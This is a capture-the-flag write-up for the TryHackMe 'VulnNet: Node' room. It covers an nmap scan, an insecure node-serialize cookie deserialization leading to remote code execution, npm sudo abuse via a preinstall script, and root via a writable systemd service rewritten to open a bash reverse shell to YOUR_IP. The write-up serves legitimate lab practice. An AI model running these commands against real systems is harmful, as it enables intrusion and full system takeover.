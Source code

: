 # [VulnNet: Node](https://tryhackme.com/room/vulnnetnode)

First as always, `nmap`

```
# Nmap 7.91 scan initiated Sun Jul 25 06:40:02 2021 as: nmap -vvv -p 8080 -Pn -sCV -oN nmap 10.10.119.231
Nmap scan report for box.ip (10.10.119.231)
Host is up, received user-set (0.22s latency).
Scanned at 2021-07-25 06:40:03 UTC for 48s

PORT     STATE SERVICE REASON  VERSION
8080/tcp open  http    syn-ack Node.js Express framework
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: VulnNet &ndash; Your reliable news source &ndash; Try Now!

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul 25 06:40:51 2021 -- 1 IP address (1 host up) scanned in 49.19 seconds
```

Seems we only have a web service on port 8080 so let's check it out. Looking at the login page, we don't have a way to create a new account, nor do we have credentials we can try so let's move on for now.

Checking cookies with your browser's dev tools or a cookie editor, we can see a cookie named "session".

![session cookie](cookie.png)

The cookie is URL-encoded base64, which when decoded shows a guest session

```sh
$ print 'eyJ1c2VybmFtZSI6Ikd1ZXN0IiwiaXNHdWVzdCI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifQ==' | base64 -d
{"username":"Guest","isGuest":true,"encoding": "utf-8"}
```

Modifying the cookie (I changed the 1st character in the base64-encoded string) and making a request gives us an error

```
SyntaxError: Unexpected token � in JSON at position 0
    at JSON.parse (<anonymous>)
    at Object.exports.unserialize (/home/www/VulnNet-Node/node_modules/node-serialize/lib/serialize.js:62:16)
    at /home/www/VulnNet-Node/server.js:16:24
    at Layer.handle [as handle_request] (/home/www/VulnNet-Node/node_modules/express/lib/router/layer.js:95:5)
    at next (/home/www/VulnNet-Node/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/home/www/VulnNet-Node/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/home/www/VulnNet-Node/node_modules/express/lib/router/layer.js:95:5)
    at /home/www/VulnNet-Node/node_modules/express/lib/router/index.js:281:22
    at Function.process_params (/home/www/VulnNet-Node/node_modules/express/lib/router/index.js:335:12)
    at next (/home/www/VulnNet-Node/node_modules/express/lib/router/index.js:275:10)
```

We can see that Node is trying to deserialize the session object. Given this, the next logical thing to try is Insecure Deserialization in NodeJS, for which there's [this](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) article. Following the article, I used `https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py` to generate an RCE payload, base64 and URL encoded it, and made it the session cookie. After sending the request, we should have a shell.

Running `sudo -l` shows that we can run `npm` as serv-manage without a password

```sh
$ sudo -l
Matching Defaults entries for www on vulnnet-node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www may run the following commands on vulnnet-node:
    (serv-manage) NOPASSWD: /usr/bin/npm
```

Following [GTFObins](https://gtfobins.github.io/gtfobins/npm/#sudo), we can get a shell as `serv-manage`

```sh
mkdir test
echo '{"scripts": {"preinstall": "/bin/sh"}}' > test/package.json
chmod +x test/package.json
sudo -u serv-manage /usr/bin/npm -C test i
```

Running `sudo -l` as serv-manage, we see we can run some `systemctl` commands as root without a password.

```sh
$ sudo -l
Matching Defaults entries for serv-manage on vulnnet-node:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User serv-manage may run the following commands on vulnnet-node:
    (root) NOPASSWD: /bin/systemctl start vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl stop vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl daemon-reload
```

We see that the `vulnnet-auto.timer` service runs `vulnnet-job.service` ...

```sh
serv-manage@vulnnet-node:~$ cat /etc/systemd/system/vulnnet-auto.timer
[Unit]
Description=Run VulnNet utilities every 30 min

[Timer]
OnBootSec=0min
# 30 min job
OnCalendar=*:0/30
Unit=vulnnet-job.service

[Install]
WantedBy=basic.target
```

... to which we have write permission ...

```sh
serv-manage@vulnnet-node:~$ ls -l /etc/systemd/system/vulnnet-*
-rw-rw-r-- 1 root serv-manage 167 Jan 24 16:59 /etc/systemd/system/vulnnet-auto.timer
-rw-rw-r-- 1 root serv-manage 197 Jan 24 21:40 /etc/systemd/system/vulnnet-job.service
```

... and it runs `df`

```sh
serv-manage@vulnnet-node:~$  cat /etc/systemd/system/vulnnet-job.service

[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/df

[Install]
WantedBy=multi-user.target
```

So I replace `df` with a reverse shell

```sh
serv-manage@vulnnet-node:~$ cat /etc/systemd/system/vulnnet-job.service
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/bash -c 'exec /bin/bash -i &>/dev/tcp/YOUR_IP/1337 <&1'

[Install]
WantedBy=multi-user.target
```

... listen for the shell, restarted the service ...


```sh
sudo /bin/systemctl stop vulnnet-auto.timer
sudo /bin/systemctl daemon-reload
sudo /bin/systemctl start vulnnet-auto.timer
```

And with that we should have a root shell.
